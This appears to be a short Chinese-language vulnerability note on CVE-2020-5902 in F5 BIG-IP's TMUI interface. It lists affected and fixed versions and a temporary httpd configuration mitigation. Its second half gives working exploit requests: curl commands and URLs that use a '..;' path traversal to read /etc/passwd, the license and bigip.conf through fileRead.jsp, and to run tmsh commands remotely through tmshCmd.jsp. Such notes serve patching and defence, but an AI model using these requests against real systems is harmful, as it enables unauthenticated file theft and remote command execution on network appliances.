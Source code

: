 #漏洞编号
 CVE-2020-5902
 
#影响版本
BIG-IP 15.x: 15.1.0/15.0.0
BIG-IP 14.x: 14.1.0 ~ 14.1.2
BIG-IP 13.x: 13.1.0 ~ 13.1.3
BIG-IP 12.x: 12.1.0 ~ 12.1.5
BIG-IP 11.x: 11.6.1 ~ 11.6.5

#通用修补建议
升级到以下版本
BIG-IP 15.x: 15.1.0.4
BIG-IP 14.x: 14.1.2.6
BIG-IP 13.x: 13.1.3.4
BIG-IP 12.x: 12.1.5.2
BIG-IP 11.x: 11.6.5.2

#临时修补建议
使用以下命令登录对应系统
tmsh

编辑 httpd 组件的配置文件
edit /sys httpd all-properties
文件内容如下
include '
<LocationMatch ".*\.\.;.*">
Redirect 404 /
</LocationMatch>
'
按照如下操作保存文件
按下 ESC 并依次输入
:wq
执行命令刷新配置文件
save /sys config
重启 httpd 服务
restart sys service httpd
并禁止外部IP对 TMUI 页面的访问


#文件读取
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf


#远程代码执行
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'




